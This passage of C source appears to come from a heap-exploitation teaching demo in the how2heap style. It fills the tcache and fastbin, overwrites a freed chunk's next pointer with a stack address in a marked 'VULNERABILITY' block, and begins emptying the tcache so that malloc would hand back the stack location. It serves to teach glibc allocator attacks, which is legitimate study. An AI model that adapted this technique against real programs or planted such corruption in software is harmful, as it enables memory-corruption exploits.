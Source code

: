 ```c
  for (i = 0; i < 7; i++) {
    free(ptrs[i]);
  }

  char* victim = ptrs[7];
  printf(
    "The next pointer that we free is the chunk that we're going to corrupt: %p\n"
    "It doesn't matter if we corrupt it now or later. Because the tcache is\n"
    "already full, it will go in the fastbin.\n\n",
    victim
  );
  free(victim);

  printf(
    "Next we need to free between 1 and 6 more pointers. These will also go\n"
    "in the fastbin. If the stack address that we want to overwrite is not zero\n"
    "then we need to free exactly 6 more pointers, otherwise the attack will\n"
    "cause a segmentation fault. But if the value on the stack is zero then\n"
    "a single free is sufficient.\n\n"
  );

  // Fill the fastbin.
  for (i = 8; i < 14; i++) {
    free(ptrs[i]);
  }

  // Create an array on the stack and initialize it with garbage.
  size_t stack_var[6];
  memset(stack_var, 0xcd, sizeof(stack_var));

  printf(
    "The stack address that we intend to target: %p\n"
    "It's current value is %p\n",
    &stack_var[2],
    (char*)stack_var[2]
  );

  printf(
    "Now we use a vulnerability such as a buffer overflow or a use-after-free\n"
    "to overwrite the next pointer at address %p\n\n",
    victim
  );

  //------------VULNERABILITY-----------

  // Overwrite linked list pointer in victim.
  *(size_t**)victim = &stack_var[0];

  //------------------------------------

  printf(
    "The next step is to malloc(allocsize) 7 times to empty the tcache.\n\n"
  );

  // Empty tcache.
  for (i = 0; i < 7; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "Let's just print the contents of our array on the stack now,\n"
    "to show that it hasn't been modified yet.\n\n"
  );
```